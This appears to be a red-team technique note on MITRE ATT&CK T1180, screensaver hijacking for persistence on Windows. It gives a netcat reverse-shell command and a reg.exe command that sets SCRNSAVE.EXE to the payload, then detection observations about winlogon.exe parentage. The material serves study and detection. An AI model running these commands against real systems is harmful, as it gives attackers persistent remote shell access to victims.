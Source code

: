 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file. 

In this test, I will use a netcat reverse shell as my malicious payload:

{% tabs %}
{% tab title="c:\\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endtab %}
{% endtabs %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](../../.gitbook/assets/screensaver-shell%20%281%29.png)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}



